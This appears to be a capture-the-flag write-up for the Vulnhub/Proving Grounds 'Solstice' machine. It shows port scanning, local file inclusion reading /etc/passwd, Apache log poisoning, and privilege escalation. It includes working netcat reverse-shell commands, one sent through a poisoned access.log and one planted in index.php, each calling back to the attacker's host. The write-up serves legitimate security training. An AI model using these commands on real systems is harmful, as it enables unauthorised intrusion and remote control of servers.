 ```yaml
---
title: "Vulnhub & Proving Ground - Solstice"
classes: wide
search: false
categories: 
  - Proving Ground
  - Vulnhub
tags:
  - php service
  - lfi
  - local file inclusion
  - apache log poisoning through lfi
last_modified_at: 2021-01-16T15:58:26+08:00
toc: true
toc_label: "Contents"
---
```


This is a machine originally from vulnhub `SUNSET: SOLSTICE` [https://www.vulnhub.com/entry/sunset-solstice,499/](https://www.vulnhub.com/entry/sunset-solstice,499/). It was created on 26 June 2020 by `whitecr0wz`. In this machine, we will learn about LFI (Local File Inclusion) and How to create an exploit or poisoning via apache `access.log` (apache log poisoning through lfi). For Privilege Escalation is how to change `index.php` codes to PHP simple reverse shell script on the webserver.

# Network Scanning

rustscan oneliner `rustscan -a 192.168.220.72 --ulimit 10000 -- -sC -sV -T4 -A -oN Solstice.nmap`

```
# Nmap 7.91 scan initiated Sat Jan 16 21:14:59 2021 as: nmap -vvv -p 21,22,25,80,8593,54787,62524 -sC -sV -T4 -A -oN Solstice.nmap 192.168.220.72
Nmap scan report for 192.168.220.72
Host is up, received syn-ack (0.44s latency).
Scanned at 2021-01-16 21:14:59 WIB for 75s

PORT      STATE SERVICE    REASON  VERSION
21/tcp    open  ftp        syn-ack pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.220.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh        syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDWAl1JMEsT6kbFmhkFFIZbd2aH3DuBpmLjo1MvWSSFsUlQ+rN9wQ8y469ng7vKZDx19ke+JZ9jUcuJAu4zQ6BHjHDcLTy44WJCESD4oACMCK6+tlMneuINf6KTMr3urfvkvlULi2ffNbMl6Ko9gS/Oqh8Cm9HyAXGTK5MVgmW39QFTXdn7ByQMnnXjKmJ+5nXbf9c9Al9JJCFQAe0irCq2w3ubylh83SwPWsunapn0pW8Czsm2nsFL6aRXCOoNeK7/GmcC8lqENMnUIVRauhpDR3radZ4Uv4ejzHL8H+IklpgVRqBiuzRiqHpGlotNYadcArbYZ4auDwibrtRwgTlD
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM9EuXzK3hXcn3ml6Kj69Bo1DACMk1AZWWm9wgPGIyPBQyQLXLazAtoqEP1phT1BNmtyAvScCwsydQwUsRH/3vA=
|   256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIATUyTSmh1Tep0cnIVXvQBD6IQTjI8TBEmQEba1Fzkv2
25/tcp    open  smtp       syn-ack Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.49.220], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
80/tcp    open  http       syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
8593/tcp  open  http       syn-ack PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
54787/tcp open  http       syn-ack PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  tcpwrapped syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 16 21:16:14 2021 -- 1 IP address (1 host up) scanned in 75.29 seconds
```

# Enumeration

After we ran `rustscan` to know open ports and all services. Let's check port `8593`

![0b7c9384b48bbebf6272fa57e9ff206e.png](/assets/images/offsec-solstice/bd108af362f64d0dbea038be4d1cc31f.png)

navigate to `Bool List`

![897c8bd6506ddb02d41ae053420692e7.png](/assets/images/offsec-solstice/fe878acb16f549418ae90660a501146e.png)

check LFI vulnerable via curl or browser

```
$ curl "http://192.168.220.72:8593/index.php?book=../../../../../etc/passwd"
<html>
    <head>
        <link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 
        <link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page</a>
            <a href="index.php?book=list">Book List</a>
        </div>
We are still setting up the library! Try later on!<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:118::/var/lib/saned:/usr/sbin/nologin
colord:x:108:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false
miguel:x:1000:1000:,,,:/home/miguel:/bin/bash
uuidd:x:112:121::/run/uuidd:/usr/sbin/nologin
smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin
</p>    </body>
</html>
```

local file inclusion access log

![4e84318f100d6649bf3a2a70d85a5033.png](/assets/images/offsec-solstice/930114eaae394226b8ec353e7ba38299.png)

create reverse shell via php command from access.log

`curl -s "http://192.168.220.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20192.168.49.220%204444%20-e%20%2Fbin%2Fbash%20"`

![591825a3b29b11ac9f85283236800c1e.png](/assets/images/offsec-solstice/591739eb41b7450699abf857b851ed72.png)

![96e0baa8e216558d9bfe02fe293655c1.png](/assets/images/offsec-solstice/2debb99492284e2dbf038635d996a425.png)

# Privilege Escalation

php service on server.

![87415e24597380cc1741a684fb10ec4c.png](/assets/images/offsec-solstice/4cfb913a85cf467eb7975558102e000f.png)

![6a0bf96e6b942ff56a5765833fbb89cc.png](/assets/images/offsec-solstice/31661a60b5e248649582f1c573bfbb09.png)

change index.php source codes to

`<?php system('nc 192.168.49.220 4445 -e /bin/bash')?>` and run `curl 127.0.0.1:57`

![611057513d7c49a3ebc7b251f6db7399.png](/assets/images/offsec-solstice/5f05325281b146538191b3eb1c2eb01d.png)

reverse shell on attacker machine

![f5005ceb7dc7c1d4775a9271ab57b9a9.png](/assets/images/offsec-solstice/724104bd089642bda9398c50fd38078c.png)